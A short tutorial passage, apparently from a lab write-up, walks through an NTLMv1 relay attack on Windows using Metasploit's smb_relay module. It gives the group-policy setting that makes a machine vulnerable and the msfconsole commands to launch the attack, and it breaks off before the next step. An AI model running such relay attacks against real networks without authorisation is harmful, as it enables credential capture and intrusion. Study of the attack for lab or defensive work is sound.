

1. NTLMv1 Relay (Metasploit)
*Only work if "Network security: LAN Manager authentication level" is set to "Send LM & NTLM responses"
To do it(Windows 7): search bar → “Edit group policy” → Local Policies → Security Options
or see
here ←
To exploit the NTLMv1 protocol we are going to use the module
https://www.rapid7.com/db/modules/exploit/windows/smb/smb_relayservice postgresql start
msfdb init
msfconsole
use exploit/windows/smb/smb_relay
show options
set SMBHOST <serverIP>
run
Once the module is running, we need to wait for someone to try the connection to our machine (administrator machine in our case). After that:
